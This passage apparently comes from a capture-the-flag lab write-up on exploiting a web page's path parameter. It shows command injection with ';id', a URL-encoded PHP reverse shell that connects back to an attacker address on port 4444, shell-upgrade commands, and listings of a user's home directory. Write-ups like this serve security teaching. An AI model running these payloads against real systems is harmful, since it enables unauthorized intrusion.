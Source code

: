 We can't read the files though. But maybe we can inject one more command using `;` lets try that.

```bash
❯ curl 'http://10.10.84.234/index.php?path=../../../../../../../../etc/passwd;id'
<html>
<body>
	<pre>
	-rw-r--r-- 1 root root 1.4K Jul 19  2021 ../../../../../../../../etc/passwd
uid=33(www-data) gid=33(www-data) groups=33(www-data)
	<pre>

<!--  where is the path ?  -->

</body>
</html>
```

And as you can see we have remote code execution. We can use that vuln to get reverse shell.

Let use [Online - Reverse Shell Generator](https://www.revshells.com/) to make a php reverse shell.

```bash
curl 'http://10.10.84.234/index.php?path=../../../../../../../../etc/passwd;php%20-r%20%27%24sock%3Dfsockopen%28%2210.21.206.128%22%2C4444%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27'
```

And now we got a reverse shell.
Lets upgrade the shell first:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
# 
stty raw -echo;fg
reset
```

```bash
www-data@host1:/home/mike$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Jul 19  2021 .
drwxr-xr-x 22 root root 4096 Jul 15  2021 ..
drwxr-xr-x  5 mike mike 4096 Jul 30  2021 mike
www-data@host1:/home/mike$ ls -la /home/mike
total 384
drwxr-xr-x 5 mike mike   4096 Jul 30  2021 .
drwxr-xr-x 3 root root   4096 Jul 19  2021 ..
lrwxrwxrwx 1 root mike      9 Jul 19  2021 .bash_history -> /dev/null
-rw-r--r-- 1 mike mike    220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 mike mike   3771 Apr  4  2018 .bashrc
drwx------ 2 mike mike   4096 Jul 30  2021 .cache
drwx------ 3 mike mike   4096 Jul 30  2021 .gnupg
-rw-r--r-- 1 mike mike    807 Apr  4  2018 .profile
drwx------ 2 mike mike   4096 Jul 19  2021 .ssh
-rwxr-xr-x 1 mike mike 358668 Jul 30  2021 1cryptupx
```
